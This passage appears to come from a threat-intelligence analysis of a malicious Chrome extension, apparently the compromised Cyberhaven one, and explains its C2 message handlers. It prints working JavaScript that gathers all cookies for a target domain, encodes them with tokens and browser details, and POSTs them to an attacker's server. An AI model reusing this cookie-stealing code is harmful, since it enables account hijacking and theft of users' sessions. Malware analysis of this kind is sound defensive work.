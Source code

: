 ```javascript
case 'cyberhavenext-rtext':
		fetch(t.url).then(t => t.text()).then(t => a(t)).catch();
		break;
	case 'cyberhavenext-rjson':
		fetch(t.url).then(t => t.json()).then(t => a(t)).catch();
		break;
```
`cyberhavenext-check-errors` is the key stealer action. Here we can see how messages received from `content.js` are used to extract, encode, and send sensitive data, including all cookies, from the targeted domains.

```javascript
case 'cyberhavenext-check-errors':
		const e = t.pl;
		let n = e.dm;
		chrome.cookies.getAll({ domain: n }, n => {
			if (n.length > 0) {
				const o = n.map(t => ({
						domain: t.domain,
						expirationDate: t.expirationDate || null,
						hostOnly: t.hostOnly,
						httpOnly: t.httpOnly,
						name: t.name,
						path: t.path,
						sameSite: t.sameSite || null,
						secure: t.secure,
						session: t.session,
						storeId: t.storeId || null,
						value: t.value
					})), c = e.n;
				let s = '';
				try {
					s = btoa(JSON.stringify(e.openapi_u));
				} catch (t) {
				}
				const i = e.openapi_tk + ' || ' + JSON.stringify(o) + ' || ' + btoa(navigator[c]) + ' || ' + e.uid + ' || ' + s + ' ||  || ' + e.k, r = {
						ms1: btoa(i),
						ms2: JSON.stringify(e.cyberhavenext_cx),
						ms3: JSON.stringify(e.gpta)
					}, l = t.url;
				fetch(l, {
					method: 'POST',
					headers: {
						Accept: 'application/json, application/xml, text/plain, text/html, *.*',
						'Content-Type': 'application/json'
					},
					body: JSON.stringify(r)
```
Given the nature of the URLs delivered by the threat actor C2, this seems to be an opportunistic attack, possibly trying to target Facebook for Business accounts. In the last year, I have seen multiple infostealers originating from Vietnam targeting Facebook for Business accounts. The implementation of a malicious browser extension might be a response from the threat actors to the [increasing cookie protections in Google Chrome](https://security.googleblog.com/2024/07/improving-security-of-chrome-cookies-on.html).
